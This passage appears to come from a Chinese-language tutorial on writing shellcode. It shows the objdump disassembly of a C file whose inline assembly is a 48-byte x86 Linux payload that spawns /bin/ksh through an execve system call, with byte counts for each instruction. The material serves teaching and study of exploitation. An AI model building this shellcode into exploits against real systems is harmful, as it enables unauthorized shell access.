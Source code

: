 objdump -j .text -Sl shellcodeasm | more
/main
得到如下结果：

08048398 :
main():
/home/scz/src/shellcodeasm.c:2
{
8048398:       55                      pushl  %ebp
8048399:       89 e5                   movl   %esp,%ebp
/home/scz/src/shellcodeasm.c:3
    __asm__
804839b:       eb 1f                   jmp    80483bc 
804839d:       5e                      popl   %esi
804839e:       89 76 09                movl   %esi,0x9(%esi)
80483a1:       31 c0                   xorl   %eax,%eax
80483a3:       88 46 08                movb   %al,0x8(%esi)
80483a6:       89 46 0d                movl   %eax,0xd(%esi)
80483a9:       b0 0b                   movb   $0xb,%al
80483ab:       89 f3                   movl   %esi,%ebx
80483ad:       8d 4e 09                leal   0x9(%esi),%ecx
80483b0:       8d 56 0d                leal   0xd(%esi),%edx
80483b3:       cd 80                   int    $0x80
80483b5:       31 db                   xorl   %ebx,%ebx
80483b7:       89 d8                   movl   %ebx,%eax
80483b9:       40                      incl   %eax
80483ba:       cd 80                   int    $0x80
80483bc:       e8 dc ff ff ff          call   804839d 
80483c1:       2f                      das
80483c2:       62 69 6e                boundl 0x6e(%ecx),%ebp
80483c5:       2f                      das
80483c6:       6b 73 68 00             imull  $0x0,0x68(%ebx),%esi
/home/scz/src/shellcodeasm.c:24
    ("
        jmp    0x1f                     # 3 bytes
        popl   %esi                     # 1 byte
        movl   %esi,0x9(%esi)           # 3 bytes
        xorl   %eax,%eax                # 2 bytes
        movb   %eax,0x8(%esi)           # 3 bytes
        movl   %eax,0xd(%esi)           # 3 bytes
        movb   $0xb,%al                 # 2 bytes
        movl   %esi,%ebx                # 2 bytes
        leal   0x9(%esi),%ecx           # 3 bytes
        leal   0xd(%esi),%edx           # 3 bytes
        int    $0x80                    # 2 bytes
        xorl   %ebx,%ebx                # 2 bytes
        movl   %ebx,%eax                # 2 bytes
        inc    %eax                     # 1 bytes
        int    $0x80                    # 2 bytes
        call   -0x24                    # 5 bytes
        .string \"/bin/ksh\"            # 9 bytes
                                        # 48 bytes total
    ");
}
80483ca:       c9                      leave
80483cb:       c3                      ret
80483cc:       90                      nop
